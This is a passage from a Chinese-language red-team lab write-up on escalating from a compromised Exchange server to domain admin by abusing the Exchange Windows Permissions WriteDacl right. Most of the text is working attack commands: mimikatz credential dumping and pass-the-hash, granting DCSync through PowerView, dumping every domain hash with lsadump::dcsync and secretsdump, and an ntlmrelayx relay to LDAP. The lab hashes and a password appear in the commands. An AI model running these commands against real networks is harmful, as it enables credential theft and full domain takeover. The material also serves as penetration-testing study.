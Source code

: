     ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/10.png)

    ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/11.png)

    由于这个权限, Exchange 的 RCE 常用以在内网渗透中用来提升到域管权限.

**详细步骤**

```bash
# 查看 Exchange Windows Permissions 对域 NC 有 WriteDacl 权限
AdFind.exe -h 192.168.123.123 -s Base -b "DC=island,DC=com" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;"WRT PERMS";;;"Exchange Windows Permissions" -recmute

# 拿下 Exchange 服务器权限后，获取机器账户 Hash 并 pth
mimikatz "log" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz "privilege::debug" "sekurlsa::pth /user:WIN2012-EX2016$ /domain:island.com /ntlm:2d03b02750ee9a3bd9902a370cf67746 /run:cmd" exit

# PowerView.ps1
# pth 后，用 Exchange 机器账户权限修改域分区 ACL，为 zhangsan 添加 Dcsync 权限
# 当然，也可以为 Exchange 机器账户自身添加 Dcsync 权限
Add-DomainObjectAcl -DomainController 192.168.123.123 -TargetDomain island.com -TargetIdentity "DC=island,DC=com" -PrincipalIdentity zhangsan -Rights DCSync -Verbose
Get-DomainObjectAcl -DomainController 192.168.123.123 -Domain island.com -Identity island | ?{$_.SecurityIdentifier -eq "S-1-5-21-65208363-682840273-3768764330-sidofzhangsan"} 
Remove-DomainObjectAcl -DomainController 192.168.123.123 -TargetDomain island.com -TargetIdentity "DC=island,DC=com" -PrincipalIdentity zhangsan -Rights DCSync -Verbose

# 检查是否成功给 zhangsan 添加 Replicating Directory Changes 和 Replicating Directory Changes All 权限
AdFind.exe -h 192.168.123.123 -s Base -b "DC=island,DC=com" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;;"Replicating Directory Changes";;"zhangsan" -recmute

# 用 zhangsan 的凭证 Dcsync
mimikatz privilege::debug "sekurlsa::pth /user:zhangsan /domain:island.com /ntlm:82b6413f42426e0b40e6d0674eb16299 /run:cmd" exit
mimikatz privilege::debug "lsadump::dcsync /domain:island.com /all /csv /dc:WIN2012-DC1.island.com" exit
python3 secretsdump.py island.com/zhangsan:ZS@123qwe@192.168.123.123 -dc-ip 192.168.123.123 -just-dc-ntlm
```

与域控进行 LDAP 通信的时候有许多注意的地方，比如本地走代理，此时是在域外执行的，需要指定域控、域名等；比如普通域用户权限 AdFind 默认查询 ACL 会失败，因为没有权限查询 SACL 导致域控什么也不返回，需要添加 `-nosacl`，而 powerview 默认只查询 DACL 所以可以成功。

或者，也可以直接中继 Exchange，让 ntlmrelayx 自动完成提权。
```bash
# Exchange System 权限执行
powershell Invoke-WebRequest http://192.168.123.123 -UseDefaultCredentials

# 内网机器上做中继，自动通过 ACL 进行提权
python3 ntlmrelayx.py -t ldap://192.168.123.124 -smb2support
```

#### ACL (已有高权限域账号)
